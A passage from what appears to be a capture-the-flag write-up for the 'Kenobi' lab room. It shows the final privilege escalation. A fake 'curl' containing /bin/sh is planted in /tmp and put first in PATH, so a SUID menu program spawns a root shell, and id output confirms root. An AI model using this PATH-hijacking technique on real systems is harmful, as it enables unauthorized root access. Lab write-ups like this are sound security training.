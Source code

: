 ```bash
kenobi@kenobi:~$ echo /bin/sh > /tmp/curl
kenobi@kenobi:~$ chmod 777 /tmp/curl
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 
```

So we are root. Now we can simply grab the root flag by traversing to root directory.
![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/kenobi/root_flag.png)

We have successfully solved this room and answered all the questions. Hope you all enjoyed it. Stay tuned. `:-)`

![kenobi solved gif](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/kenobi/kenobi_solved.gif)
